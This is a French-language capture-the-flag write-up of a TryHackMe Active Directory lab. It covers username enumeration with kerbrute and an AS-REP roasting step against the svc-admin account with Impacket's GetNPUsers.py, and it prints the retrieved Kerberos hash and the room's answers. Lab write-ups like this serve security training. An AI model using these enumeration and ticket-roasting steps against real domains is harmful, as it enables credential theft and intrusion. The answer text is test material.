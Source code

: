 ```bash



```

On met le sous domaîne dans le hosts.   
On télécharge une liste de nom.  
On brute force les noms aevc kerbrute.   

La réponse est : usernum.   

**What notable account is discovered? (These should jump out at you)**

Le compte que l'on remarque est : svc-admin

**What is the other notable account is discovered? (These should jump out at you)**

L'autre compte que l'on remarque est : backup   

## Task 5 Exploitation Abusing Kerberos ##

**We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ GetNPUsers.py spookysec.local/svc-admin
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[*] Cannot authenticate svc-admin, getting its TGT
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:32df868fa3665c3b12e701dfce3bfd2d$da73c2f757e02273fc2448d7f216f47700f72168d7077e35f99ad8ee0633ddeaed6ae20111da993b5897518e60f1aeb83e8cbdb5656ab63d921efd6c33b814f3e393784008bb5ef1b989a1702fc2d716865a48684ebac274d684827f13dc203e669e74f7aacc4c6d5313f42c78a33670b2d4620b3e18cb4222a414bcfa1ce69f62ecbc35fc3e0a1fe3397d8fd856d38f239467a8b2f3aba6e80270a2a87236744fb9ca207c19f349a655e917dba1150c418d841d26b8c7f45979aa345f46c5d6aea8e6d2db8ac9ab9d2055fd962ed1f2ea73a04eec6a524036be30ca22a7bc6ac20e0bd1e7f502f5f8fe965109d425bf99a6
```

Le compte svc-admin donne un ticket sans mot de passe.   

Réponse : svc-admin   

**Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)**
